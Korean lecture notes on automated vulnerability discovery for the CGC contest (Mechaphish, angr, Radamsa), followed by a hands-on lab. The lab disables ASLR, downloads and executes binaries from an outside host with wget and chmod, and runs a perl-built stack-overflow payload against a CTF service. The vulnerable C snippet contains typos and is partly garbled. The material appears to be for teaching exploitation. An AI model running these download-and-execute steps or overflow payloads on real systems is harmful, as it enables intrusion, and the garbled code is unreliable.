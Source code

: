 # PART3. AI 기반 취약점 탐지  

DCREE라는 7개만 가능한 sw 써서 CGC 진행됨    

### AI 기반 취약점 탐지 대회  
모든 참가팀의 서버에 CB가 데몬으로 세팅되어 있음
자신의 CB를 분석하여 취약점을 찾은 후 다른 탐가팀의 데몬을 공격한 후 키값을 획득함  
발견된 취약점은 패치를 진행하여 방어하도록 함  

#### mechaphish 라는 오픈 소스  
스택 오버 플로우 기법 ROP 기법으로 shell코드로 넘기고    
command injection은 Type2로 공격에 성공하게 하는  

취약한 바이너리에서 퍼징 , 자동으로 취약점 찾아내는, 

#### AEG
퍼징, symbolic Execution 기법을 통하여 취약점을 찾음  
익스플로잇 코드를 자동 생성하여 공격함  

퍼징: radamsa fuzz  
symbolic Execution등 분석 : ANGR  
익스플로잇 코드 생성 : REX  -> 공격코드 쉘코드로 자동 저장?   

#### Angr : shellphish 팀에서 개발한 symbolic Excution  
#### Radamsa Fuzzer : 취약한 함수의 입력값을 찾거나 크래쉬 부분  
-----
### 실습
#### 초기 비밀번호 설정
```
sudo passwd root
su
id
```

#### 예전 아키텍처 사용

```
disass main ( 어셈블리 명령어확인) 
```
       
```
r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
b *main+35 (브레이크 포인트 걸기)
r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
info reg
x/16x $sep
```

#### 쉘 코드 작성 - 스택오버플로우  
```
wget http://javahacking.com/aihacking/shell.txt
cat shell.txt
```

```
sysctl -w kernel.randomize_va_space = 0  //커널 고정
wget http://javahacking.com/aihacking/getenv
chmod 755 getenv
./getenv
>(nil)
```

```
sysctl -w kernel.randomize_va_space = 0  //커널 고정
./getenv
./getenv //고정됐는지 확인!
> 0xffff1aa5

./login `perl -e 'print "A"x8, "\xa5\x1a\xff\xff"'`
>AAAAAAAA????
exit 
```

#### CTF  
```
wget http://javahacking.com/aihacking/nonull
chmod 755 nonull
./nonull
```
#### 접속됐는지 확인하기 위해 shell 하나 더 켜서
```
netstate -na
nc localhost 12344
```

#### 실제 nonull.txt 파일 보고 공격해보기
```
// nonull.txt 소스
nonull
12344

#define MAX_RECV 128

char key[MAX_RECV] = {0x00, };
char gs[4] = {0xadm 0x00, 0x00, 0xff};
char bug[MAX_RECV] = {0x00, };

fp = fopen("/home/ctf2/key", "r");
fread(key, 1024m 1m fp);
fclose(fp);

recv_data(sock, buf, MAX_RECV + 5);
send_data(sock, buf, strlen(buf));
```



